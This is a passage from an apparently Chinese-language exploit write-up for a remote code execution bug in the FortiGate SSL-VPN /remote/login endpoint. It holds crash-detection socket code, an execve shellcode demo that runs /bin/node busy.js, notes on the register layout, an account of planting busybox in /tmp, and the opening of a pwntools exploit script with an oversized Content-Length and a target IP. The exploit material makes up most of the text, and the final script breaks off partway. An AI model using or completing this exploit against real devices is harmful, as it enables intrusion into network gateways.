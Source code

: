 ```
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break

```  
  
命令执行 /bin/node busy.js  
  
  
这里我用的是execve去执行  
  
```
char *argv[] = { "/bin/node", "/busy.js", NULL };
char *envp[] = { "PATH=/usr/bin", "HOME=/root", NULL };

execve("/bin/node", argv, envp);
```  
  
可以先写个demo测试，这里要注意的是写shellcode的时候 argv 和 envp分别指的是数组，也就是要把rsi rdx指向构造好的地址  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfKxMBibOnlDdGzj6lWrAoYadrd6yBXqFSibCA0Srt5sCVF1cg5sEXvSHg/640?wx_fmt=png&from=appmsg "")  
  
  
rsi指向的是0x7ff1eaec7d80对应下面  
  
```
0x7ff1eaec7db8: "/bin/node"
0x7ff1eaec7dc0: "/busy.js"
null 
```  
  
类似这种，然后我们这里打exp去执行之前的busy.js指令 在飞塔或者原界面都是没有输出的  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfO6eBib0glyztPmZvct3E4Y2opq9rLlBrNZo2Ycpt3uut3ZNRbI9miaQQ/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到没有任何回显 但就是执行成功了 成功放入busybox，这里没有放入bin的原因是因为没有权限所以放入tmp文件夹中  
  
  
命令执行exp  
  
```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
```